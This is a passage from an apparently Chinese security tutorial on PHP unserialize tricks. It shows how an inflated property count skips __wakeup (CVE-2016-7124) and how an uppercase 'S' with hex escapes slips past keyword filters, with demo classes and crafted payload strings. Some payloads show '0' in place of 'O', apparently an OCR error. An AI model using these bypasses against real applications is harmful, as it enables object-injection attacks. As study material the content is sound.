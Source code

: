 **2.2绕过__wakeup （CVE-2016-7124）

```
VERSION
 PHP5 < 5.6.25
 PHP7 < 7.0.10
```

exploitation

序列化字符串中表示对象属性个数的值大于真实的属性和个数时会跳过__wakeup的执行

```php
//example
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function __wakeup(){
        $this->a='666';
    }
    public function  __destruct(){
        echo $this->a;
    }
}
```

```php
//对象属性个数等于真实属性个数
unserialize('0:4:"test":1:{s:1:"a";s:3:"abc";}')
输出结果666

//对象属性个大于于真实属性个数
unserialize('0:4:"test":2:{s:1:"a";s:3:"abc";}')
输出结果abc，成功绕过__wakeup()
```

**2.3 16进制绕过字符的过滤**

```
O:4:"test":2:{s:4:"%00*%00a";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
可以写成
O:4:"test":2:{S:4:"\00*\00\61";s:3:"abc";s:7:"%00test%00b";s:3:"def";}
表示字符类型的s大写时，会被当成16进制解析。
```

```php
//example

<?php
class test{
    public $username;
    public function __construct(){
        $this->username = 'admin';
    }
    public function  __destruct(){
        echo 666;
    }
}
function check($data){
    if(stristr($data, 'username')!==False){
        echo("你绕不过！！".PHP_EOL);
    }
    else{
        return $data;
    }
}
```